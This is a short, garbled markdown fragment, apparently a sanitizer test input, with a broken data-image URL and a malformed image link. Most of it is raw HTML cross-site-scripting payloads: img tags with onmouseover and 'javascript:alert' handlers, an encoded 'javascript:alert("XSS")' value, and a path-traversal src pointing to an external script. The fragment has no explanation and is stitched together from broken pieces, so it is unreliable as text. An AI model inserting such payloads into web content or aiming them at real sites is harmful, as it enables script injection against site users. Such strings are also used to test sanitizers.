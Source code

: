![
%0a
<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="%08javascript:alert(1)" onmouseover="javascript:alert(1)" style="height:100px;"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
